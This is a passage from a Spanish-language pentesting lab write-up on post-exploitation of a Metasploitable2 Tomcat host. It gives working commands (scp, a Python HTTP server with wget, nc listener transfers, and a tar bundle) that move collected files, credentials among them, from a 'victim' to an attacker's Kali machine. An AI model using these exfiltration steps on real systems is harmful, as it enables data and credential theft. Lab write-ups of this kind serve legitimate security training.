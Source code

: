 - root@192.168.56.102 -> Usuario y IP de la víctima.
- /tmp/*.txt -> todos los archivos que guardamos.
- Pedirá contraseña de root.

#### Método 2 --- Servidor HTTP con Python en la víctima.

En la shell root de la víctima:

```bash
cd /tmp
python -m SimpleHTTPServer 8000
```

o en Python 3:

```bash
python3 -m http.server 8000
```

Y, luego en nuestro Kali:

```bash
wget http://192.168.56.102:8000/info_sistema.txt
wget http://192.168.56.102:8000/usuarios.txt
wget http://192.168.56.102:8000/red.txt
wget http://192.168.56.102:8000/credenciales.txt
```

Éste método es muy útil cuando SSH no es viable.

#### Método 3 --- Usar nc para transferencia directa.

En Kali (modo escucha y guardar en archivo):

```bash
nc -lvnp 9001 > info_sistema.txt
```

En la víctima (root):

```bash
nc 192.168.56.101 9001 < /tmp/info_sistema.txt
```

Repite para cada archivo cambiando nombre y puerto o usando tar para empaquetar todo.

#### Método 4 -- Empaquetar todo y descargar de una sóla vez.

En la víctima:

```bash
cd /tmp
tar czvf postex_tomcat.tar.gz *.txt
python3 -m http.server 8000
```

En Kali:

```bash
wget http://192.168.56.102:8000/postex_tomcat.tar.gz
tar xzvf postex_tomcat.tar.gz -C ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/
```
